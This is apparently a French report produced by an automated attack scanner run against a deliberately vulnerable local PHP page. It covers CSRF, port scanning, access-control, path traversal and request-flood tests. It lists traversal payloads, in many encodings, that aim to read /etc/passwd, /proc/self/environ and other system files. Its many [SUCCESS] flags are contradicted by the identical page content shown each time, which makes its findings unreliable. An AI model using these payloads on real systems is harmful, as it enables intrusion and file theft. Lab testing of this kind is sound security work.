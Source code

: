 # Rapport des Attaques

## Analyse de l'attaque CSRF :
Succès : L'attaque CSRF a été exécutée.


## Analyse de l'attaque Nmap :
URL cible : localhost

Résultats du scan :
Ports ouverts : 80

## Analyse de l'attaque Buffer Overflow pour : http://localhost/csrf.php
Payload envoyé (100 octets).
Réponse du serveur : 200
ID de session : 2mjpq27uph6cjslsqmop4je8po<br>Utilisateur  introuvable.
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisat...


## Analyse de l'attaque Access Control :
- Accessible: http://localhost/csrf.php/admin (200 OK)
- Accessible: http://localhost/csrf.php/settings (200 OK)
- Accessible: http://localhost/csrf.php/hidden (200 OK)
- Accessible: http://localhost/csrf.php/api (200 OK)
- Accessible: http://localhost/csrf.php/dashboard (200 OK)
- Accessible: http://localhost/csrf.php/config (200 OK)
- Accessible: http://localhost/csrf.php/login (200 OK)
- Accessible: http://localhost/csrf.php/logout (200 OK)
- Accessible: http://localhost/csrf.php/register (200 OK)
- Accessible: http://localhost/csrf.php/backup (200 OK)
- Accessible: http://localhost/csrf.php/data (200 OK)
- Accessible: http://localhost/csrf.php/private (200 OK)
- Accessible: http://localhost/csrf.php/secure (200 OK)
- Accessible: http://localhost/csrf.php/test (200 OK)


## Analyse des Composants Vulnérables

URL cible : http://localhost/csrf.php
### Composants détectés :
- **PHP**: 2.4.54

### Frameworks détectés :
- **Backend Framework**: PHP/7.4.33

### Vérification des vulnérabilités :

#### PHP:
PHP: Pas de vulnérabilités connues

#### Backend Framework:
Backend Framework: Pas de vulnérabilités connues
## Path Traversal

URL cible : http://localhost/csrf.php
- Fichier cible : /etc/passwd
- Fichier cible : /etc/hosts
- Fichier cible : /windows/win.ini
- Fichier cible : /proc/self/environ
- Pattern de traversée : ../
- Pattern de traversée :  ..\
- Pattern de traversée :  ..%2f
- Pattern de traversée :  ..%5c
- Pattern de traversée :  ..%c0%af
- Pattern de traversée :  ..%u2216
- Pattern de traversée :  ..%252e%252e%255c

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file=..//etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : s7q2ge660f9fkr1c03dh22ud4b<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..\/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : g5cgqm75qaulsq9j840crbjt2b<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%2f/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : lb7jlnv05tj9p5nqmd0jmiih08<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%5c/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 1t7go9bb0ukou2vber206lh8tv<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%c0%af/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : clth47seoutjkb8b9gfk9ekteh<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%u2216/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 6c5hf5e568u5hfni3k39ol4tf3<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%252e%252e%255c/etc/passwd
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 4dbst3n77qpgg1haom8bhj8a4j<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file=..//etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : j2a4cppah7k645k71hln3v2av8<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..\/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : dreq2hsfdb1d5ilpssf980sn49<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%2f/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : sm3b2vtnhna2falsicqud5m8vp<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%5c/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : qrnummdrskiv4hltn9t4da2iv0<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%c0%af/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 5068rhe7jq3ibj8cop5j2quhc0<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%u2216/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : sj0dk0nns6r7d01ae5vvlcn6om<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%252e%252e%255c/etc/hosts
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : jq882hctib49ipl0jobgs5d9e2<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file=..//windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : jh8e8bsp50ese60iahm7u69h2f<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..\/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 5ir2bb2v1e4bafe356tucgf05a<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%2f/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : aoute4rcc5pgoj172bedbe646c<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%5c/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : gt284ej18mufvdj55154sndat3<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%c0%af/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 97ojs22f1bhsufagrhac80hft6<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%u2216/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : mo0l39i68ev7k60h7i1cae6rib<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%252e%252e%255c/windows/win.ini
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : ka5o3u1rv4aktqefm3kgbm47mr<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file=..//proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 9a9gjquejmtfgmmh0fgno04kbu<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..\/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : lod2a25989ajgpo1g9eed9ltcr<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%2f/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : v7593shlkr11tvsa09e9ssf1vb<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%5c/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 9vl3o3gcs0h9s046lf4tug3d4g<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%c0%af/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 6el27dosph7i24q5liu6d81v51<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%u2216/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 20tfq4j1146uhbt9fdrgimisrp<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

[SUCCESS] Fichier trouvé : http://localhost/csrf.php?file= ..%252e%252e%255c/proc/self/environ
<details>
<summary>Voir le contenu extrait</summary>

```
ID de session : 9dfha598on2hlrtq3i151nc6j0<br>
<!-- Formulaire vulnérable -->
<form method="POST" action="">
    <input type="text" name="username" placeholder="Nom d'utilisateur">
    <input type="password" name="password" placeholder="Nouveau mot de passe">
    <button type="submit">Soumettre</button>
</form>

<!-- Afficher les utilisateurs stockés dans la session -->
<h3>Utilisateurs enregistrés dans la session :</h3>
<pre>Array
(
    [alice] => password123
    [bob] => securePass
)
</pre>


```
</details>

## Analyse de l'attaque DDoS
- URL cible : http://localhost/csrf.php
- Temps initial estimé : 10.00 secondes
- Temps réel de l'attaque : 10.33 secondes
- Nombre de requêtes sélectionnées : 100
- Requêtes effectuées : 100
- Intervalle entre les requêtes : 0.10 secondes


